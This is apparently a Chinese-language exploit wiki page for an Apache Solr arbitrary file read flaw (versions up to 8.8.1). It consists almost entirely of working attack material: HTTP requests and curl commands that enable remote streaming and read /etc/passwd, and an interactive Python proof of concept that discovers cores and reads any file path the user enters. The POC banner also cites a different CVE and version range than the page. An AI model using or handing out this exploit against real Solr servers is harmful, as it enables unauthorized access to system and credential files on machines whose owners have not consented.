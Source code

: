 <languages   />

<translate>

漏洞影響
--------

</translate>

    Apache Solr <= 8.8.1

<translate>

漏洞利用
--------

</translate>

<translate> 首先進入管理員頁面，獲取core的信息： </translate>

    http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

<translate> 發送以下數據包 </translate>

    POST /solr/ckan/config HTTP/1.1
    Host: xxx.xxx.xxx:8983
    Content-Length: 99
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://118.31.46.134:8983
    Content-Type: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    {"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

<translate>

文件讀取
--------

</translate>

    POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
    Host: xxx.xxx.xxx.xxx:8983
    Content-Length: 29
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
    Origin: http://118.31.46.134:8983
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://118.31.46.134:8983/solr/ckan/config
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

    stream.url=file:///etc/passwd

<translate> curl請求爲： </translate>

    curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
    curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from lxml import etree
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
        print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
        print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
        try:
            response = requests.request("GET", url=core_url, timeout=10)
            core_name = list(json.loads(response.text)["status"])[0]
            print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
            return core_name
        except:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    def POC_2(target_url, core_name):
        vuln_url = target_url + "/solr/" + core_name + "/config"
        headers = {
            "Content-type":"application/json"
        }
        data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
            if "This" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_3(target_url, core_name, File_name):
        vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'stream.url=file://{}'.format(File_name)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
            if "No such file or directory" in response.text:
                print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
            else:
                print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        core_name = POC_1(target_url)
        POC_2(target_url, core_name)
        while True:
            File_name = str(input("\033[35mFile >>> \033[0m"))
            POC_3(target_url, core_name, File_name)